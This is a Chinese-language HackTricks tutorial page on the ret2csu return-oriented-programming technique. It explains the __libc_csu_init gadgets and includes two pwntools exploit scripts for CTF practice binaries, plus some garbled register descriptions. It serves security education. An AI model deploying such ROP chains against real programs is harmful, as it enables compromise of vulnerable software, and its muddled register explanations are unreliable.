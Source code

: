 # Ret2csu

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)基本信息

**ret2csu** 是一种黑客技术，当你试图控制一个程序但找不到通常用来操纵程序行为的 **gadgets** 时使用。

当一个程序使用某些库（如 libc）时，它有一些内置函数来管理程序不同部分之间的通信。在这些函数中，有一些隐藏的宝石可以作为我们缺失的 gadgets，特别是一个叫 `__libc_csu_init` 的函数。

### \_\_libc\_csu\_init 中的魔法 gadgets

在 **`__libc_csu_init`** 中，有两个指令序列（gadgets）值得强调：

1. 第一个序列让我们在几个寄存器（rbx, rbp, r12, r13, r14, r15）中设置值。这些就像我们可以存储后续要使用的数字或地址的槽。
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
这个小工具允许我们通过从栈中弹出值来控制这些寄存器。

2. 第二个序列使用我们设置的值来做几件事情：
* **将特定值移动到其他寄存器中**，使它们准备好作为函数的参数使用。
* **执行对一个位置的调用**，该位置由将 r15 和 rbx 中的值相加，然后将 rbx 乘以 8 来确定。
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
3. 也许你不知道要写入哪个地址，并且你**需要一个 `ret` 指令**。请注意，第二个 gadget 也将**以 `ret` 结束**，但你需要满足一些**条件**才能到达它：
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
条件将是：

* `[r12 + rbx*8]` 必须指向一个存储可调用函数的地址（如果没有想法且没有PIE，可以直接使用 `_init` 函数）：
* 如果 `_init` 在 `0x400560`，使用 GEF 在内存中搜索指向它的指针，并使 `[r12 + rbx*8]` 成为指向 `_init` 的指针的地址：
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp` 和 `rbx` 必须具有相同的值以避免跳转
* 需要考虑一些省略的 pop

## RDI 和 RSI

从 ret2csu gadget 控制 **`rdi`** 和 **`rsi`** 的另一种方法是通过访问特定的偏移量：

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

查看此页面以获取更多信息：

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## 示例

### 使用调用

想象一下，您想要进行系统调用或调用像 `write()` 这样的函数，但需要在 `rdx` 和 `rsi` 寄存器中作为参数的特定值。通常，您会寻找直接设置这些寄存器的 gadget，但您找不到任何。

这时 **ret2csu** 发挥作用：

1. **设置寄存器**：使用第一个魔法 gadget 从栈中弹出值并放入 rbx、rbp、r12（edi）、r13（rsi）、r14（rdx）和 r15。
2. **使用第二个 gadget**：在设置好这些寄存器后，使用第二个 gadget。这使您可以将所选值移动到 `rdx` 和 `rsi`（分别来自 r14 和 r13），为函数调用准备参数。此外，通过控制 `r15` 和 `rbx`，您可以使程序调用位于您计算并放入 `[r15 + rbx*8]` 的地址的函数。

您可以在这里找到一个 [**使用此技术并解释的示例**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation)，这是它使用的最终利用：
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
注意，之前的漏洞并不是为了实现 **`RCE`**，而是为了调用一个名为 **`win`** 的函数（从标准输入调用 gets 获取 `win` 的地址并将其存储在 r15 中），并带有一个值为 `0xdeadbeefcafed00d` 的第三个参数。
{% endhint %}

### 绕过调用并到达 ret

以下漏洞是从 [**此页面**](https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html) 提取的，其中使用了 **ret2csu**，但不是使用调用，而是 **绕过比较并在调用后到达 `ret`**：
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### 为什么不直接使用libc？

通常这些情况也容易受到 [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/) 的攻击，但有时你需要控制的参数比你在libc中直接找到的gadgets更复杂。例如，`write()` 函数需要三个参数，而**直接找到设置所有这些的gadgets可能是不可能的**。
